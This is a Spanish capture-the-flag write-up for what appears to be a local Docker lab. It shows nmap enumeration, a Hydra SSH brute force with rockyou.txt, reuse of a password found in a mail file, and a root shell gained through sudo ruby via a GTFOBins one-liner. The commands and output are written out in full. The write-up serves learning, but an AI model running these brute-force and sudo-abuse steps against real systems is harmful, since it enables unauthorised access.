 #hydra #password-brute-force #gtfobins #abusing-sudo #ruby

![](../../../Images/Pasted%20image%2020241008071813.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH** i un servicio **HTTP** funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 17:03 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 17:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.80 seconds
```

## Website (80 TCP Port)

En el sitio web no vemos nada pero mirando el códuigo fuente de la página desucbrimos dos posibles nombres de usaurios.



![](../../../Images/Pasted%20image%2020241008170742.png)


## SSH (22 TCP Port)




# Usuario XXX


```
> hydra -l camilo -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 17:07:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 17:08:02
```


```
ssh camilo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:52z4CT20OpL7G8YfPhcdERem6Sq+z8868LngvNGXRlA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
camilo@172.17.0.2's password:
$
```



# Usuario Juan



```
camilo@a8996f6fcde9:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```



```
camilo@a8996f6fcde9:/var/mail/camilo$ su juan
Password:
$ id
uid=1000(juan) gid=1000(juan) groups=1000(juan)
$
```


# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo` y vemos que podemos ejecutar el binario **ruby**.

```
sudo -l
Matching Defaults entries for juan on a8996f6fcde9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on a8996f6fcde9:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Si investigamos en la página web de [GTFOBINS](https://gtfobins.github.io/) vemos como podemos conseguir una shell con permisos sudo.

![](../../../Images/Pasted%20image%2020241008172202.png)

```
$ sudo ruby -e 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
```